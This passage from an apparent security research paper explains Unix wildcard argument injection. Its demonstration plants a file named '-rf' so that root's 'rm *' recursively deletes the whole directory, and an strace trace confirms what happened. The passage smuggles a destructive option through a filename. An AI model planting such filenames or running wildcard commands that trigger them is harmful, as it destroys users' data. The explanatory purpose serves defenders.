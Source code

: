 Simple trick behind this technique is that when using shell wildcards, 
especially asterisk (*), Unix shell will interpret files beginning with hyphen
(-) character as command line arguments to executed command/program.
That leaves space for variation of classic channeling attack.
Channeling problem will arise when different kind of information channels 
are combined into single channel. Practical case in form of particulary this technique 
is combining arguments and filenames, as different "channels" into single,
because of using shell wildcards.

Let's check one very basic wildcard argument injection example.

[root@defensecode public]# ls -al
total 20
drwxrwxr-x.  5 leon   leon   4096 Oct 28 17:04 .
drwx------. 22 leon   leon   4096 Oct 28 16:15 ..
drwxrwxr-x.  2 leon   leon   4096 Oct 28 17:04 DIR1
drwxrwxr-x.  2 leon   leon   4096 Oct 28 17:04 DIR2
drwxrwxr-x.  2 leon   leon   4096 Oct 28 17:04 DIR3
-rw-rw-r--.  1 leon   leon      0 Oct 28 17:03 file1.txt
-rw-rw-r--.  1 leon   leon      0 Oct 28 17:03 file2.txt
-rw-rw-r--.  1 leon   leon      0 Oct 28 17:03 file3.txt
-rw-rw-r--.  1 nobody nobody    0 Oct 28 16:38 -rf

We have directory with few subdirectories and few files in it.
There is also file with '-rf' filename ther owned by the user 'nobody'.
Now, let's run 'rm *' command, and check directory content again.

[root@defensecode public]# rm *
[root@defensecode public]# ls -al
total 8
drwxrwxr-x.  2 leon   leon   4096 Oct 28 17:05 .
drwx------. 22 leon   leon   4096 Oct 28 16:15 ..
-rw-rw-r--.  1 nobody nobody    0 Oct 28 16:38 -rf


Directory is totally empty, except for '-rf' file in it.
All files and directories were recursively deleted, and it's pretty obvious what happened...
When we started 'rm' command with asterisk argument, all filenames in current
directory were passed as arguments to 'rm' on command line, exactly same as 
following line:

[user@defensecode WILD]$ rm DIR1 DIR2 DIR3 file1.txt file2.txt file3.txt -rf

Since there is '-rf' filename in current directory, 'rm' got -rf option as the
last argument, and all files in current directory were recursively deleted.
We can also check that with strace:

[leon@defensecode WILD]$ strace rm *
execve("/bin/rm", ["rm", "DIR1", "DIR2", "DIR3", "file1.txt", "file2.txt", 
"file3.txt", "-rf"], [/* 25 vars */]) = 0
              ^- HERE

Now we know how it's possible to inject arbitrary arguments to the unix
shell programs. In the following chapter we will discuss how we can abuse that
feature to do much more than just recursively delete files.
